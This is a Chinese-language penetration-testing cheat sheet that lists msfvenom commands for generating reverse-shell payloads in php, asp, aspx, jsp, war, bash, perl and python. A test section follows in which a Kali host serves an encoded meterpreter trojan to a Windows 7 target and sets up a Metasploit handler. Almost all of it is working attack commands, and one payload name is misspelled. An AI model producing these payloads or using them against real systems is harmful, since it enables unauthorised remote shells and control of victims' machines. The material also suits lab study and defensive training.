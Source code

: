 	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.130 LPORT=4444 raw > shell.php

* asp

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

* aspx

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f aspx > shell.aspx

* jsp

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

* war

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

* bash

	msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On>-f raw > shell.sh

* perl

	msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl

* python

	msfvenom -p python/meterpreter/reverser_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

## 测试

靶机： win7 x64 （192.168.2.138） 

攻击机： kali  (192.168.2.131)

生成木马 msf.exe：

	msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.2.131 LPORT=4444 -b "\x00" -e x64/shikata_ga_nai -f exe -o msf.exe

在生成的木马的目录下，

	python -m SimpleHTTPServer 8000


win7访问网址下载文件(http://192.168.2.131:8000)

win7运行木马，kali开始监听，

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```